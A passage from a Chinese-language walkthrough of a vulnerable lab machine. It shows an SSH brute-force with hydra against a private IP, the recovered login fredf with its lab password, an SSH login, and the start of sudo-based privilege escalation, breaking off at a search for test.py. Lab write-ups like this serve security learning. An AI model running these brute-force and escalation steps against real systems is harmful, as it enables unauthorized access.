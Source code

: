 把获取的内容信息加入到我们刚才的password.txt文件里面

再爆破一次

```
hydra -L username.txt -P password.txt ssh://192.168.81.145
```

发现一个新的用户

```
login: fredf   
password: B4-Tru3-001
```

![image-20220322173319691](https://gitee.com/xxb667/img/raw/master/img/image-20220322173319691.png)

新用户进行ssh登录

```
ssh fredf@192.168.81.145
```

![image-20220322173505001](https://gitee.com/xxb667/img/raw/master/img/image-20220322173505001.png)

# 4.提权

## 4.1 查看用户sudo权限

使用**fredf**用户登录之后

列出sudo 权限的命令

```
sudo -l
```

发现**fredf**可以使用root权限运行文件

![image-20220322173701199](https://gitee.com/xxb667/img/raw/master/img/image-20220322173701199.png)

```
cd /opt/devstuff/dist/test
```

运行test文件时，发现他是一个python文件

![image-20220322174217179](https://gitee.com/xxb667/img/raw/master/img/image-20220322174217179.png)

查找test.py文件

```
find / -name test.py 2>/dev/null
```

```bash
2>/dev/null 代表忽略掉错误提示信息
```
